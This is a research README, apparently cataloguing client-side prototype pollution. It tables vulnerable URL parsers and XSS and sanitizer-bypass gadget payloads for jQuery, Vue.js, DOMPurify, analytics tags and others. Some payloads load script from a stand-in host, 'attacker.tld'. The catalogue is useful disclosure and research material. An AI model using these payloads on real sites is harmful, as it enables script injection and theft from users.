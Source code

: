 # Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                              | Payload                                                                  | Refs                                        | Found by                                         |
|-------------------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                                 | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)          | `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                           | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)                         | `?__proto__.test=test`<br>`?__proto__[test]=test`<br>`?__proto__[test]={"json":"value"}`|                              | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)                   | `?__proto__.test=test`<br>`?constructor.prototype.test=test`<br>`?__proto__.array=1\|2\|3`| [[1]](https://bugcrowd.com/disclosures/57b28008-4653-4dec-88c3-4d38e40023ff/toolbox-teslamotors-com-html-injection-via-prototype-pollution-potential-xss) | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)                                   | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [MooTools More](/pp/mootools-more.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Swiftype Site Search (**Fixed**)](/pp/swiftype-site-search.md)   | `#__proto__[test]=test`                                                  |                                             | [s1r1us](https://twitter.com/S1r1u5_)            |
| [CanJS deparam](/pp/canjs-deparam.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Rahul Maini](https://twitter.com/iamnoooob)     |
| [Purl (jQuery-URL-Parser)](/pp/purl.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [HubSpot Tracking Code (**Fixed**)](/pp/hubspot.md)               | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [YUI 3 querystring-parse](/pp/yui3.md)                            | `?constructor[prototype][test]=test`                                     |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Mutiny](/pp/mutiny.md)                                           | `?__proto__.test=test`                                                   |                                             | [SPQR](https://twitter.com/amlnspqr)             |
| [jQuery parseParams](/pp/jquery-parseparam.md)                    | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [POSIX](https://twitter.com/po6ix)               |
| [php.js parse_str](/pp/parse_str.md)                              | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [POSIX](https://twitter.com/po6ix)               |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                            | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get](/gadgets/jquery.md#get-jquery-all-versions) | `?__proto__[context]=<img/src/onerror%3dalert(1)>`<br>`&__proto__[jquery]=x`| XSS              |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300)    | `?__proto__[url][]=data:,alert(1)//`<br>`&__proto__[dataType]=script`  | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300-1)  | `?__proto__[url]=data:,alert(1)//`<br>`&__proto__[dataType]=script`<br>`&__proto__[crossDomain]=`| XSS |                                       | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md#getscript-jquery--340) | `?__proto__[src][]=data:,alert(1)//`                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $.getScript 3.0.0 - 3.3.1](/gadgets/jquery.md#getscript-jquery-300---331) | `?__proto__[url]=data:,alert(1)//`                  | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $(html)](/gadgets/jquery.md#html-jquery-all-versions)  | `?__proto__[div][0]=1`<br>`&__proto__[div][1]=<img/src/onerror%3dalert(1)>`<br>`&__proto__[div][2]=1`| XSS    |                                | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $(x).off](/gadgets/jquery.md#xoff-jquery-all-versions) | `?__proto__[preventDefault]=x`<br>`&__proto__[handleObj]=x`<br>`&__proto__[delegateTarget]=<img/src/onerror%3dalert(1)>`| XSS    |             | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google reCAPTCHA](/gadgets/recaptcha.md)               | `?__proto__[srcdoc][]=<script>alert(1)</script>`                              | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1`<br>`&__proto__[src]=//attacker.tld/js.js`          | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1`<br>`&__proto__[url]=//attacker.tld/js.js`               | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[innerText]=<script>alert(1)</script>`                             | Bypass            | [[1]](https://github.com/apostrophecms/sanitize-html/commit/0fe551c2c6fac1277c0b9688263bd61acc52baf8)| [Hpdoger](https://twitter.com/hpdoger)              |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror`<br>`&__proto__[whiteList][img][1]=src`| Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror`<br>`&__proto__[ALLOWED_ATTR][1]=src`    | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1`<br>`&__proto__[*%20SRC]=1`                        | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img`<br>`&__proto__[src][]=x:`<br>`&__proto__[onerror][]=alert(1)` | XSS     |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[src]=data:,alert(1)//`                                            | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Swiftype Site Search](/gadgets/swiftype-site-search.md)| `?__proto__[xxx]=alert(1)`                                                    | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Embedly Cards](/gadgets/embedly.md)                    | `?__proto__[onload]=alert(1)`                                                 | XSS               |                                                   | [Guilherme Keerok](https://twitter.com/k33r0k)      |
| [Segment Analytics.js](/gadgets/segment-analytics.md)   | `?__proto__[script][0]=1`<br>`&__proto__[script][1]=<img/src/onerror%3dalert(1)>`<br>`&__proto__[script][2]=1`| XSS   |                               | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Knockout.js](/gadgets/knockout.md)                     | `?__proto__[4]=a':1,[alert(1)]:1,'b`<br>`&__proto__[5]=,`                     | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Zepto.js](/gadgets/zepto.md)                           | `?__proto__[onerror]=alert(1)`                                                | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Sprint.js](/gadgets/sprint.md)                         | `?__proto__[div][intro]=<img%20src%20onerror%3dalert(1)>`                     | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-if]=_c.constructor('alert(1)')()`                               | XSS               |                                                   | [POSIX](https://twitter.com/po6ix)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[attrs][0][name]=src`<br>`&__proto__[attrs][0][value]=xxx`<br>`&__proto__[xxx]=data:,alert(1)//`<br>`&__proto__[is]=script`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-bind:class]=''.constructor.constructor('alert(1)')()`           | XSS               | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [r00timentary](https://ctftime.org/team/32783) |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[data]=a`<br>`&__proto__[template][nodeType]=a`<br>`&__proto__[template][innerHTML]=<script>alert(1)</script>`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [SuperGuesser](https://twitter.com/SuperGuesser)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[props][][value]=a`<br>`&__proto__[name]=":''.constructor.constructor('alert(1)')(),"`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [st98_](https://twitter.com/st98_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[template]=<script>alert(1)</script>`  | XSS | [[1]](https://github.com/aszx87410/ctf-writeups/issues/24) | [huli](https://github.com/aszx87410/)               |
| [Demandbase Tag](/gadgets/demandbase-tag.md)            | `?__proto__[Config][SiteOptimization][enabled]=1`<br>`&__proto__[Config][SiteOptimization][recommendationApiURL]=//attacker.tld/json_cors.php?`  | XSS |  | [SPQR](https://twitter.com/amlnspqr) |
| [@analytics/google-tag-manager](/gadgets/analytics-google-tag-manager.md) | `?__proto__[customScriptSrc]=//attacker.tld/xss.js`                                                                            | XSS |  | [SPQR](https://twitter.com/amlnspqr) |
| [i18next](/gadgets/i18next.md) | `?__proto__[lng]=cimode`<br>`&__proto__[appendNamespaceToCIMode]=x`<br>`&__proto__[nsSeparator]=<img/src/onerror%3dalert(1)>`                                      | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [i18next < 19.8.5](/gadgets/i18next.md) | `?__proto__[lng]=a`<br>`&__proto__[a]=b`<br>`&__proto__[obj]=c`<br>`&__proto__[k]=d`<br>`&__proto__[d]=<img/src/onerror%3dalert(1)>`                      | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [i18next >= 19.8.5](/gadgets/i18next.md) | `?__proto__[lng]=a`<br>`&__proto__[key]=<img/src/onerror%3dalert(1)>`                                                                                    | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google Analytics](/gadgets/google-analytics.md)        | `?__proto__[cookieName]=COOKIE%3DInjection%3B`                                                                                            | Cookie Injection | | [Sergey Bobrov](https://twitter.com/Black2Fan)    |

